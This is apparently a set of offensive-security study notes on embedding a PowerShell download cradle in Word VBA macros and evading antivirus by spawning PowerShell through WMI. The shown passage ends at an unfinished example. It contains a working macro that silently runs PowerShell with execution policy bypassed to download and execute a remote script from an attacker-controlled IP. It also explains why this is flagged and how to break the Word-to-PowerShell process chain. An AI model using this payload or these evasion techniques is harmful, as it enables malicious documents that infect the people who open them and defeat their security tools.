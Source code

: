 # TOC
+ [Hiding PowerShell Inside VBA](#hiding-powershell-inside-vba)
  + [Dechaining PowerShell with WMI](#dechaining-powershell-with-wmi)
  + [Obfuscating VBA](#obfuscating-vba)
+ [Final code](#final-code)
# Hiding PowerShell Inside VBA

### 1. **Why Use PowerShell in VBA Payloads?**

- Advantage: No **first-stage shellcode** embedded in the document.
- Instead, VBA uses a **PowerShell download cradle** to fetch + execute shellcode.

### Example (basic runner):

```vbnet
Sub MyMacro()
  Dim strArg As String
  strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
  Shell strArg, vbHide
End Sub
```

📌 **Expectation:** Low detection (no embedded shellcode).

📌 **Reality:** 8 AV detections (more than unencrypted Meterpreter shellcode).

**Why flagged?**

1. Use of `Shell` → suspicious, creates PowerShell as **child of Word**.
2. Clear PowerShell download cradle string.

## Dechaining PowerShell with WMI

### Problem:

- PowerShell spawned directly from Word → AV flags "Word → PowerShell" chain.

### Solution:

- Use **WMI** to spawn PowerShell.
- Parent process becomes `WmiPrvSE.exe`, not Word → less suspicious.

### Key components:

- `GetObject("winmgmts:")` → connect to WMI.
- `Get("Win32_Process")` → WMI class for process actions.
- `.Create <process>` → spawn new process.

### Example:
